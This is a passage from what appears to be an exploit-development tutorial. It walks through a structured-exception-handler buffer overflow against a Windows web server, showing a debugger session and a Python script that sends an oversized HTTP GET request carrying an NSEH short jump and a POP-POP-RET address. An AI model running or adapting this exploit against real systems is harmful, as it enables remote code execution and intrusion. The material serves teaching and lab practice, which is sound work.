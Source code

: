 ```
101576c2 c3              ret
0:012> t
eax=77e06f82 ebx=01c4ba00 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=01c4ff54 esp=01c4b904 ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01c4ff54 41              inc     ecx
0:012> dds eip L4
01c4ff54  41414141
01c4ff58  101576c0 libspp!pcre_exec+0x16450
01c4ff5c  43434343
01c4ff60  43434343
0:012> a
01c4ff54 jmp 0x01c4ff5c
01c4ff56 
0:012> u eip L1
01c4ff54 eb06            jmp     01c4ff5c
```

Update your script with the disassembled jump value.

{% code title="sehof_nseh.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

host = '127.0.0.1'
port = 80
size = 6000

exp  = little_endian(0x06eb9090)  # (NSEH) jmp +06
exp += little_endian(0x101576c0)  # (PPR)  pop eax; pop ebx; ret
#exp += b'\x90\x90'                # (NSEH) offset for the 'eb 06' part of the jmp instruction

filler = b'A' * (2499 - 4)
junk   = b'C' * (size - len(filler + exp))

buf = filler + exp + junk

request  = b'GET /' + buf + b'HTTP/1.1' + b'\r\n'
request += b'Host: ' + host.encode() + b'\r\n'
request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
request += b'Connection: keep-alive' + b'\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(request)
s.close()
```
{% endcode %}

